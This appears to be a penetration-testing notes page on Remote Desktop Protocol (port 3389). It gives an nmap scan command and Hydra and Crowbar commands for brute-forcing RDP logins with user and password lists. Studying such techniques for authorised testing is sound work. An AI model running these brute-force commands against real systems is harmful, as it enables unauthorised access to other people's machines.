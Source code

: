 # 3389 - RDP

## Theory

The remote desktop protocol is the common application used to connect remotely to Windows operating systems. If enabled on the remote host, users can connect to the graphical user interface of the Windows host. Take note that the RDP server will listen on port 3389 to get the job done.



***

## Practical

### Nmap Scan

```
nmap ‐sV ‐sC ‐O ‐T5 ‐p 3389 <IP>
```

### Brute Force

#### Hydra

```
hydra -L <user list> -P <password list> rdp://<IP>

hydra -l "Administrator" -P ~/Desktop/users.txt rdp://<IP>
```

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption><p>Hydra Output</p></figcaption></figure>

#### Crowbar

```
# Install Crowbar
sudo apt install crowbar

# Brute force
crowbar ‐b rdp ‐s 172.16.0.104/32 ‐u admin ‐C /root/pass.txt
```

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption><p>Crowbar Output</p></figcaption></figure>



***

## REFERENCES

* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)
* [https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/](https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/)
* [https://exploit-notes.hdks.org/exploit/windows/protocol/rdp-pentesting/](https://exploit-notes.hdks.org/exploit/windows/protocol/rdp-pentesting/)
* [https://hacktricks.boitatech.com.br/pentesting/pentesting-rdp](https://hacktricks.boitatech.com.br/pentesting/pentesting-rdp)

